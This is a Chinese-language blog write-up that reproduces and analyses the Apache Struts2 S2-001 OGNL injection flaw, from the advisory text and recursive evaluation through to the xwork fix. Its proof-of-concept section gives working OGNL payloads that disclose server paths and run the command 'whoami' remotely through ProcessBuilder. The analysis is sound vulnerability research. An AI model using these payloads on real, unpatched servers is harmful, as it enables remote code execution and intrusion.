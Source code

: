```yaml
---
title: s2-001复现分析
date: 2021-08-10 21:05:49
categories: 
- 代码审计
tags:
- struts2
- s2-001
# description: 描述
# comments: 是否可以评论（默认true：可评论）
cover: index.jpg
---
```


## 1.漏洞原因
官方说明：
https://cwiki.apache.org/confluence/display/WW/S2-001

```shell
The 'altSyntax' feature of WebWork 2.1+ and Struts 2 allows OGNL expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an OGNL expression that will then be executed by the server if the form validation has failed. For example, say we had this form that required the 'phoneNumber' field to not be blank:
```

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

```shell
The user could leave the 'phoneNumber' field blank to trigger the validation error, then populate the 'name' field with %{1+1}. When the form is re-displayed to the user, the value of the 'name' field will be '2'. The reason is the value field is, by default, processed as %{name}, and since OGNL expressions are evaluated recursively, it is evaluated as if the expression was %{%{1+1}}.

The OGNL parsing code is actually in XWork and not in WebWork 2 or Struts 2.
```

### 简单翻译就是：
WebWork 2.1+和Struts2的“altSyntax”功能允许将OGNL表达式插入文本字符串并进行递归处理。 这允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行。 例如，假设我们有一个要求'phoneNumber'字段不为空的表格：

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

用户可以将“ phoneNumber”字段留空以触发验证错误，然后在“ name”字段中填充％{1 + 1}。 当表单重新显示给用户时，“名称”字段的值将为“ 2”。 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

OGNL解析代码实际上在XWork中，而不在WebWork 2或Struts 2中。 


关键点在这两句话：

1. 允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行

2. 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。


第一句话的理解：

OGNL表达式的字符串,如果表单验证失败，则字符串由服务器执行。

OGNL表达式字符串：

https://xz.aliyun.com/t/2672#toc-3 可以看这篇文章，有详细的介绍。

https://juejin.cn/post/6844904013683507207 ognl语法介绍

表单验证失败：

在使用了s2`<s>`标签时，验证失败返回首页时会将表达式内容执行并返回到标签框中。

第二句话理解：

参考：https://b1ue.cn/archives/93.html

默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

我们输入了`%{233*233}`按理应该返回`%{233*233}`。但是s2会给输入加上`%{}`,所以变成了`%{%{233*233}}`。因为translateVariables方法递归执行了ognl表达式。所以计算了`233*233`。
`altSyntax` 功能允许将OGNL表达式插入到文本字符串中并以递归方式处理。

## 2.poc利用
poc:

```java
%{1+1}
```
![](./2.1.png)

获取tomcat路径：

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取web路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```


命令执行payload:

```java
%25{%23a%3d(new+java.lang.ProcessBuilder(new+java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),%23b%3d%23a.getInputStream(),%23c%3dnew+java.io.InputStreamReader(%23b),%23d%3dnew+java.io.BufferedReader(%23c),%23e%3dnew+char[50000],%23d.read(%23e),%23f%3d%23context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),%23f.getWriter().println(new+java.lang.String(%23e)),%23f.getWriter().flush(),%23f.getWriter().close()}
```

执行结果：

![2.1.1](./2.2.png)


## 3. poc构建分析

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()}
```

ognl表达式构建对象。执行命令。

`#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),`命令执行存储到a属性,申请一个存储流到e属性，调用`com.opensymphony.xwork2.dispatcher.HttpServletResponse`进行回显。

## 4.漏洞分析
https://b1ue.cn/archives/93.html

## 5.漏洞修复

官方给出的修复方案是将altSyntax默认关闭，使用break打断递归查询。

反编译对比xwork-2.0-beta-1.jar和xwork-2.0.5.jar：

![5.1](./5.1.png)

发现在xwork-2.0.5中将返回改成了break。以此来修复递归执行ognl表达式。
